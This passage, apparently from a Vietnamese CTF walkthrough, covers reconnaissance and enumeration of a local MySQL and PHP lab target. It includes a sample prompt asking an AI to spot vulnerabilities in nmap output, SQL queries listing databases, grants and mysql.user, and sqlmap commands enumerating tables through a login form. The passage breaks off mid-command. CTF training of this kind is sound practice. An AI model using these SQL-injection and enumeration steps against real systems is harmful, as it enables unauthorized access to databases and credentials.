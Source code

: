 #### 1.4 Sử Dụng AI cho Reconnaissance

**Prompt cho ChatGPT/Claude:**
```
Analyze this nmap output and identify potential vulnerabilities:
[paste nmap output]

What are common vulnerabilities for MySQL 8.0 service?
```

---

### 2. ENUMERATION (Liệt kê)

#### 2.1 Database Enumeration

```sql
-- Connect to database
mysql -h localhost -P 3306 -u ctf_user -p

-- List all databases
SHOW DATABASES;

-- Select database
USE ctf_database;

-- List tables
SHOW TABLES;

-- Describe table structure
DESCRIBE users;
DESCRIBE admin_panel;

-- Check privileges
SHOW GRANTS;
SHOW GRANTS FOR CURRENT_USER;

-- List users
SELECT user, host FROM mysql.user;

-- Check variables
SHOW VARIABLES LIKE '%version%';
SHOW VARIABLES LIKE '%secure%';
```

#### 2.2 Web Application Enumeration

```bash
# Using sqlmap for initial enumeration
sqlmap -u "http://localhost:8080/index.php?page=login" \
       --data="username=test&password=test" \
       --dbs \
       --batch

# Enumerate tables
sqlmap -u "http://localhost:8080/index.php?page=login" \
       --data="username=test&password=test" \
       -D ctf_database \
       --tables \
       --batch

# Enumerate columns
sqlmap -u "http://localhost:8080/index.php?page=login" \
       --data="username=test&password=test" \
       -D ctf_database \
       -T admin_panel \
```